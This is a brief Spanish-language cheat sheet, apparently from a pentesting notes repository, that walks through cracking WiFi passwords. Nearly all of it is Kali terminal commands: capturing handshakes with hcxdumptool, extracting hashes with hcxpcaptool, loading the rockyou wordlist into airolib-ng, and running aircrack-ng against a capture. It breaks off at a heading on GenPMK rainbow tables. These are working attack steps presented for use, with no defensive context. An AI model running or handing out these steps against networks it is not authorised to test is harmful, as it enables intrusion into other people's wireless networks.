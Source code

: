 ```bash

```

## Ataque hcxdumptool

```bash
┌─[root@kali]─[/opt/xerosploit]
└──╼ hcxdumptool -i wlan0mon -o Capture --enable_status=1 

┌─[root@kali]─[/opt/xerosploit]
└──╼ hcxpcaptool -z myHashes Capture

# Luego se realiza ataque de fuerza bruta
```


## Cracking con Airolib

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ airolib-ng passwords-airolib --import passwd /usr/share/wordlists/rockyou.txt

┌─[root@kali]─[/Documents/WiFi/]
└──╼ file passwords-airolib

#Se le hace "echo" al nombre de la red
┌─[root@kali]─[/Documents/WiFi/]
└──╼ echo "Testing" > essid.lst

┌─[root@kali]─[/Documents/WiFi/]
└──╼ airolib-ng passwords-airolib --import essid essid.lst

┌─[root@kali]─[/Documents/WiFi/]
└──╼ airolib-ng passwords-airolib --stats

┌─[root@kali]─[/Documents/WiFi/]
└──╼ airolib-ng passwords-airolib --clean all

┌─[root@kali]─[/Documents/WiFi/]
└──╼ airolib-ng passwords-airolib --batch
Batch processing... #Este paso demora bastante, ya que está cargando el diccionario a la base de datos.

┌─[root@kali]─[/Documents/WiFi/]
└──╼ aircrack-ng -r passwords-airolib Captura-01.cap
# La fuerza bruta será mucho más rápido de lo normal.
```

## Creación de una Rainbow Table con GenPMK

Este proceso hará extremadamente rápido el proceso de fuerza bruta.
